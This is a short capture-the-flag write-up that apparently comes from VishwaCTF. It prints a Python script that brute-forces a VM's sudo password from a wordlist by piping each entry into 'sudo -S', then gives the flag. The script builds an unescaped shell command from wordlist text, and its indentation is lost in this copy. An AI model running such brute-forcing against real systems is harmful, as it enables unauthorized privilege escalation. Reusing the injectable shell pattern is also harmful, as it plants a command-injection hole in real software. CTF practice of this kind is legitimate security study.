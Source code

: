 You have been provided with a .rar file containing a VM of a linux OS.
After you search around a bit, you can find a word list in the home directory.
We use the following code to bruteforce all the passwords provided in the wordlist.

import os

import sys



if len(sys.argv) == 1:

print("You need to add a wordlist! Run the script like this: python sudo_brute_force.py passwords.txt")

exit()



wordfile = sys.argv[1]



print("Brute force sudo password with wordlist {}".format(wordfile))

print()



with open(wordfile, "r") as wordlist:

for password in wordlist:

print(password)



result = os.system("echo {} | sudo -Si".format(password.strip())) # important: strip() the newline char



if result == "0" or result == 0:

print("Success! :) The password is: {}".format(password))

break

else:

print("Wrong password... :( Let's try again!")

print()

The password is ‘password’

So, the flag is vishwactf{password}
